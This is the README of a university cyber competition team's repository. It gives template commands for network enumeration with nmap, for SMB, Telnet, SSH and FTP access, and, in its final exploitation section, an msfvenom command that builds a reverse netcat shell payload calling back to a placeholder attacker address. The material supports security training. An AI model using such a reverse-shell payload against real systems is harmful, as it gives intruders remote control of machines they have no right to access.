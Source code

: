 <img style="float: center; width: 173px; height: 200px; margin: 5px;" src="https://www.uat.edu/themes/uat/images/uat-logo.png"/>
# A Public Repository for the UAT Cyber Competition Team 
The folders represent various scripts and resources applicable to individual members or subject areas to support Blue or Red team operations.  The guidance below is for quick reference and will continue to evolve as we develop use-cases.
> ### Using any of the resources within this repository without proper permission by the target network owner will likely be illegal.  These resources are for educational purposes only. 

## RECONNAISSANCE
### Enumeration (Active Recon)
#### Network Enumeration
The first step in evaluating a target network is to identify open ports and active services.

NMAP Commands:
```
nmap [flag(s)] [target/file]
```


References:\
[Try Hack Me NMAP room](https://tryhackme.com/r/room/furthernmap)\
[NMAP Cheat Sheet All Commands & Flags Nathan House](https://www.stationx.net/nmap-cheat-sheet/)


## REMOTE ACCESS (Network Services)
[An overview of SMB, Telnet, SSH and FTP](https://chatgpt.com/share/3a9c17c6-db6d-48b6-ae75-a3d976bdfd4f)

SMB Commands:
```zsh
smbclient //[ip]/[share] -U [userName] -p [port]
```
Telnet Commands:
```zsh
telnet [ip] [port]
```
SSH Commands:
```zsh
ssh username@IP
```
FTP Commands:
```
ftp[ip]
```

References:\
[Try Hack Me Network Services room](https://tryhackme.com/r/room/networkservices)

## EXPLOITATION

Reverse Shell:\
Obtain your lhost from the terminal using ifconfig or ip a

Obtaining a reverse shell payload:
```zsh
msfvenom -p cmd/unix/reverse_netcat lhost=xx.xx.xx.xx lport=4444 R
```
